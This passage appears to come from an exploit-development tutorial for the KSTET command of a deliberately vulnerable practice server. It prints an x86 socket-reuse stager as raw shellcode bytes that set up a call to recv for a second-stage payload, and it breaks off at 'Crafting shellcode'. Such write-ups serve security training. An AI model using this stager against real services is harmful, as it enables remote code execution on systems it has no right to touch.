 This ```KSTET``` command is almost similar to ```GTER``` command, the only difference between them is the buffer size

The ```JMP.&WS2_32.recv()``` is same and static, since they are all from the same program

We just need to craft the ```socket reuse stager``` to push the arguments into the stack for ```JMP.&WS2_32.recv()```

I have clearly discussed how to craft the socket reuse stager in detail on my previous post

We will be using the same stager, because we need the same operation to be performed by this socket

## Adding socket reuse stager

The socket reuse stager used for the previous exploit is,

```c
file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"
```

We will be passing it into our stage 1 payload

## Crafting shellcode
